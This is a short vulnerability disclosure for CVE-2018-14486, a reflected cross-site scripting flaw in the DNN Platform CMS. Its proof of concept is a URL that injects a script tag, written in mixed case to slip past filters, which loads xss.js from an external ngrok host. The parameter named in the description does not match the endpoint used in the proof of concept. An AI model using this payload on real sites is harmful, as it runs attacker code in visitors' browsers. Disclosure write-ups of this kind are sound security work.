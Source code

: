 ﻿## Remote XSS in DNN Platform
### CVE-2018-14486
#### Description
DNN Platform is an open source .NET CMS and the DNN CMS Platform is a well-known CMS system based on .NET. The DNN CMS Platform has a vulnerability that allows remote attackers to perform XSS attacks via the "ReturnUrl" parameter in the "Login" page.

#### Vulnerability Type
Cross Site Scripting (XSS)

#### Vendor of Product
DNN Corp.

#### Affected Product Code Base
All DNN Products

#### Affected Component
DotNetNuke Core

#### Attack Type
Remote

#### Proof of Concept
Leveraging SSRF on another website, I can chain together XSS on the DNN Platform. The following is a proof of concept that will reflect Message back onto the SSRF Vulnerable website.

```html
https://www.dnnvictimsite.com/API/internalservices/searchService/search?search=\'"<ScRiPt src="https://asdasd.ngrok.io/xss.js"/>
```

>[!note]
> Leveraging this method allows us to reflect and abuse the vulnerability on all vulnerable SSRF websites.